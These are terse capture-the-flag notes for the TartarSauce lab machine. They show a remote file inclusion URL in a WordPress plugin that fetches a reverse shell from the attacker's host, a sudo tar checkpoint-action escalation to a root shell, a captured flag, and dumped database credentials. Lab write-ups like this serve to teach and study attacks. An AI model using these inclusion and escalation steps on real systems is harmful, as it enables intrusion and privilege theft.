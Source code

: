 name a php-reverse-shell file as wp-load.php, Host it, and it will grab it.

http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.15/


sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

UFLAG: b2d6ec45472467c836f253bd170182c7



[+] Looking for Wordpress wp-config.php files                                                                                          
wp-config.php files found:\n/var/www/html/webservices/wp/wp-config.php                                                                 
define('DB_NAME', 'wp');                                                                                                               
define('DB_USER', 'wpuser');                                                                                                           
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');                                                                                      
define('DB_HOST', 'localhost');                




onuma@TartarSauce:~$ cat .mysql_history                                                                                                
cat .mysql_history
_HiStOrY_V2_
create\040database\040backuperer; 